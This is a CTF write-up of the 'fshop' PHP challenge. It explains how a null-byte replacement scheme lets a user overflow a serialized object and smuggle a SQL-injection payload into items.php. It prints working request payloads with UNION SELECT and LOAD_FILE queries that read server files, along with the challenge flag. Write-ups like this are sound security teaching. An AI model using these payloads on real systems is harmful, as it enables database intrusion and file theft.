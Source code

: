 # fshop writeup

16 solves

I believe that this challenge would've had way more less solevs without the unintended solution.

Before I start, sorry for not having the pictures of the actual application. The server of the challenge is currently not active.

# funcionalities of the application

The challenge was written in php and the following 2 files were the ones needed to understand to solve the challenge
```
buy.php
items.php
```

buy.php
```
$stmt=$conn->prepare("SELECT * FROM products where id=?");
$stmt->bind_param("s",$id);
$id=$product_id;
$stmt->execute();
if ($stmt->get_result()->num_rows==0){
	die("Product does not exist");
}
$productOBJ=new Order($product_id,$quantity,$size);

$serialized_product=serialize($productOBJ);

$filtered_serialized_product=str_replace(chr(0).'*'.chr(0), '\0\0\0', $serialized_product);

$sql="INSERT INTO user_items (user_id,product_object) VALUES (?, ?)";
$stmt = $conn->prepare($sql);
$stmt->bind_param("is",$id, $object);
$id=(int)$user_id;
$object=$filtered_serialized_product;
$stmt->execute();
```

buy.php gets the $pdocut_id, $quantity, and $size (This is user-controllable) and serializes it.

When php serializes private properties, it prepends * surrounded with null bytes in the name. 

mysql cannot process null bytes so the code replaces the * surrounded with the null bytes with \0\0\0. Then it just simply executes the sql query and puts the serialized string into a table named user_items.

itmes.php
```
    $sql="SELECT * from user_items where user_id=?";
    $stmt=$conn->prepare($sql);
    $stmt->bind_param("i",$id);
    $id=(int)$_SESSION['id'];
    $stmt->execute();
    echo '<div class="row" id="product-list">';
    if ($result = $stmt->get_result()) {
        while ($row = $result -> fetch_row()) {
            $serializedObject=$row[2];
            $serializedObject=str_replace('\0\0\0',chr(0).'*'.chr(0), $serializedObject);
            $order=unserialize($serializedObject);
            $prod_id=$order->_product_id;
            $sql2="select * from products where id='$prod_id'";
            if ($result2 = $conn->query($sql2)) {
            
                while ($row2 = $result2 -> fetch_row()) {
                    
                echo "  <div class=\"col-lg-3 col-sm-6 mix all dresses bags\">
                            <div class=\"single-product-item\">
                                <figure>
                                    <a href=\"product-page.php?id=".$row2[0]."\"><img src=".$row2[6].' alt=""></a>
                                    <div class="p-status">For CTF ladies</div>
                                </figure>
                                <div class="product-text">
                                    <h6>'.$row2[1].'</h6>
                                    <p>'.$row2[2].'</p>
                                </div>
                            </div>
                        </div>';

                }
                $result2 -> free_result();
            }
        }
        $result -> free_result();
    }
```

Items.php showed all of the items that you have chose in buy.php.

It first get's all of the rows from user_items with your user_id.
It then gets the serialized object that was made from buy.php and replaces \0\0\0 with * surrounded with null bytes and unserliazes that then print them out.

# vulnerability

The problem with this program is that the user also has the ability to inject \0.

Below is an example of a serialized object.
```
{s:12:"*_quantity";s:1:"1";s:8:"*_size";s:1:"S";s:11:"_product_id";s:1:"1";}
```

As I said, since mysql can't process null bytes, the application will change it to

```
{s:12:"\0\0\0_quantity";s:1:"1";s:8:"\0\0\0_size";s:1:"S";s:11:"_product_id";s:1:"1";}
```

and then change it back to the original serialized object by replacing \0\0\0 with chr(0)."*".chr(0) in items.php.

But what if you give \0 values like the example below?

```
?id=3&size=s&quantity=%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0

results in 

serialized_product : O:5:"Order":3:{s:12:"*_quantity";s:30:"\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0";s:8:"*_size";s:1:"s";s:11:"_product_id";s:1:"3";}

and then replacing * with \0\0\0 it will change to 

filtered_serialized_product : O:5:"Order":3:{s:12:"\0\0\0_quantity";s:30:"\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0";s:8:"\0\0\0_size";s:1:"s";s:11:"_product_id";s:1:"3";}
then go into the db
```

and then when it converts \0\0\0 back to * in items.php it will change to 

```
serializedObject : O:5:"Order":3:{s:12:"*_quantity";s:30:"*****";s:8:"*_size";s:1:"s";s:11:"_product_id";s:1:"3";}
```

Pay attention to the string length where it says s:30. It gave the value of s:30 because it counts all characters in \0\0\0\0\0\0\0\0\0\0\0\0\0\0\0 but when it converts it back to chr(0)."*".chr(0) it is still in s:30 but the actual character length is 15(you need to also count the null bytes so 10 null bytes + 5 "*" is 15). This means that we have 15 more characters that we can control. So when the above seralized object gets unsrialized, it will occur an error.

# Exploit

So the attack flow is
1. overflow _quantity and overwrite _size
2. create and put the serialized object that contains _size and _product_id(containg the sql injection) into _size

Let's say we want to inject 'UNION SELECT null,null,null,null,null,null,null-- -

the payload will be the following
```
id=3&size=";s:8:"\0\0\0_size";s:5:"12345";s:11:"_product_id";s:156:"UNION SELECT null,null,null,null,null,null,null-- -&quantity=\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0
```

when this payload gets serialized and when the \0s get replaced with * it will look like below
```
O:5:"Order":3:{s:12:"*_quantity";s:48:"********";s:8:"*_size";s:109:"";s:8:"*_size";s:5:"12345";s:11:"_product_id";s:79:"'UNION SELECT null,null,null,null,null,null,null-- -";s:11:"_product_id";s:1:"3";}
```
so at _quantity, the character length is stated 48 so it will cover 
```
********";s:8:"*_size";s:109:"
```
as string. So when it gets unserialized, it unserializes the part that was in the payload which is size=12345 and _product_id='UNION SELECT null,null,null,null,null,null,null-- -

Perfect! so now we can control the _product_id and achieve sql injection in /items.php

Unfortunately, I do not remember the exact query that I have used so below is the author's sql injection query.

```
id=3&size=";s:8:"\0\0\0_size";s:5:"12345";s:11:"_product_id";s:156:"50' union select 1,2,VARIABLE_VALUE,4,5,6,7 from performance_schema.session_variables where VARIABLE_NAME="secure_file_priv";-- -&quantity=\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0


/var/lib/Fword/mysql-files/You_got_it/


id=3&size=";s:8:"\0\0\0_size";s:5:"12345";s:11:"_product_id";s:120:"50' union select 1,2,LOAD_FILE("/var/lib/Fword/mysql-files/You_got_it/flag.txt"),4,5,6,7;-- -&quantity=\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0

FwordCTF{Uns3ri4lize_ov3rfl0w_fi7s_be7t3r_w1th_s0m3_5QL_1nj3c7ion}
```
The above payload uses the same idea that I explained.

Thanks for reading



# Unintended Solution

There was a bug in /items.php where if you went to /items.php before logging in, it will give you other user's output which also printed out the flag. I right away reported it to admin and it got fixed after some time.

# Conclsion
This was a fun challenge about serializing. Sorry for the bad writeup, I'm currently on some assignemtns for school so I had to write it quick and short.

Once again, thanks for reading.